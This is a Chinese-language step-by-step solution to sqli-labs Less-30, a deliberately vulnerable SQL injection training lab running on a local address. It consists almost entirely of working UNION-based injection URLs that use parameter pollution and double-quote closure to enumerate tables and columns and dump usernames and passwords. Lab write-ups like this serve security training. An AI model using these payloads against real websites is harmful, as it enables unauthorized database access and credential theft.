






# Less - 30

---

# 通关教程

---

## 1、判断闭合

---

```http
http://192.168.225.132/sqli-labs/Less-30/login.php?id=1&id=2'
http://192.168.225.132/sqli-labs/Less-30/login.php?id=1&id=2" 
```

​​

​​

---

根据错误显示判断闭合方式为"–+，并且为字符型注入

---

## 2、查看当前库

---

```http
http://192.168.225.132/sqli-labs/Less-30/login.php?id=1&id=-2" union select 1,2,database()--+
```

​​

---

## 3、查看security库下的所有表

---

```http
http://192.168.225.132/sqli-labs/Less-30/login.php?id=1&id=-2" union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security')--+
```

​​

---

## 4、查看users表下的所有字段

---

```http
http://192.168.225.132/sqli-labs/Less-30/login.php?id=1&id=-2" union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users')--+
```

​​

---

## 5、查看username,password字段的所有值

---

```http
http://192.168.225.132/sqli-labs/Less-30/login.php?id=1&id=-2" union select 1,2,(select group_concat(concat_ws('~',username,password)) from security.users)--+
```

​​
